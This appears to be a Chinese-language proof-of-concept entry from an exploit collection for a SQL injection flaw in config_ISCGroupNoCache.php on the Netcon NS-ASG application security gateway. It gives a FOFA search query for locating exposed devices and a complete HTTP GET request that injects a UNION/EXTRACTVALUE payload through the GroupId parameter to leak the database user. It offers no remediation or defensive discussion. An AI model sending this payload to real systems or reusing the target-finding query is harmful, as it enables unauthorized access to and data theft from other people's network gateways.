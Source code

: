 ## 网康科技NS-ASG应用安全网关config_ISCGroupNoCache.php存在SQL注入漏洞

## fofa
```
app="网康科技-NS-ASG安全网关"
```

## poc
```
GET /admin/config_ISCGroupNoCache.php?GroupId=1+UNION+ALL+SELECT+EXTRACTVALUE(1,concat(0x7e,(select+user()),0x7e)) HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Linux; Android 11; motorola edge 20 fusion) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.61 Mobile Safari/537.36
Accept-Charset: utf-8
Accept-Encoding: gzip, deflate
Connection: close

```
